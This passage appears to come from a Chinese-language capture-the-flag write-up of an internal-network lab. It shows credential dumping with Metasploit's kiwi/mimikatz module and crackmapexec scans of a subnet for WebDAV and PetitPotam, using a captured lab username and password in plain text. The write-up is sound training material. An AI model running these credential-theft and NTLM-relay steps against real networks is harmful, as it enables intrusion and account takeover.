 直接用msf自带的mimikatz抓密码：

```
load kiwi
creds_all
```

![image-20241118201144809](images/11.png)

抓到了一个机器账户，一个普通用户的hash和密码

# flag3

可以用cme去看内网开启了什么功能，这个看wp才知道去扫webdav和petitpotam，webdav可以拓宽petitpotam的攻击面，通过WebDav进行NTLM Relay的好处在于可以不受到协议签名的影响，对本地内部网或受信任的站点自动使用当前用户凭据进行NTLM认证

```
cme smb 172.22.11.0/24 -u yangmei -p xrihGHgoNZQ -M webdav
cme smb 172.22.11.0/24 -u yangmei -p xrihGHgoNZQ -M petitpotam
```
